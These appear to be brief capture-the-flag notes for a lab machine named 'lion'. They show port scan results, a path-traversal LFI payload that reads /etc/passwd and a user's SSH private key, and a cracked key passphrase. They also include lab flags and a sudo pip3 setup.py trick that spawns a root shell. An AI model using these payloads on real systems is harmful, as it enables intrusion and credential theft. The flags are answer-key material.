 # My IP : 10.8.226.18

# Target IP : 10.10.161.94


Open 10.10.161.94:80
Open 10.10.161.94:1337
Open 10.10.161.94:3306
Open 10.10.161.94:5555
Open 10.10.161.94:9999



lfi at :
http://10.10.161.94:5555/?page=./../../../../../../../../../../../../etc/passwd

alex:x:1000:1000:alex,,,:/home/alex:/bin/bash
marty:x:1001:1001:,,,:/home/marty:/bin/bash
gloria:x:1002:1002:,,,:/home/gloria:/bin/bash

http://10.10.161.94:5555/?page=./../../../../../../../../../../../../home/gloria/.ssh/id_rsa

id_rsa_gloria
dance            (id_rsa_gloria)

```bash
gloria@lion:~$ cat user.txt 
thm{05e2762150425df49a2d27e8bb08cf2d}

```


```bash
alex@lion:/home/alex$ cat user.txt 
guz{7732rs0312254rq6886oq84943q12s64}

rot 13
thm{7732ef0312254ed6886bd84943d12f64}

User alex may run the following commands on lion:
    (ALL) NOPASSWD: /usr/bin/pip3

TF=$(mktemp -d)
echo "import os; os.execl('/bin/sh', 'sh', '-c', 'sh <$(tty) >$(tty) 2>$(tty)')" > $TF/setup.py

sudo /usr/bin/pip3 install $TF
```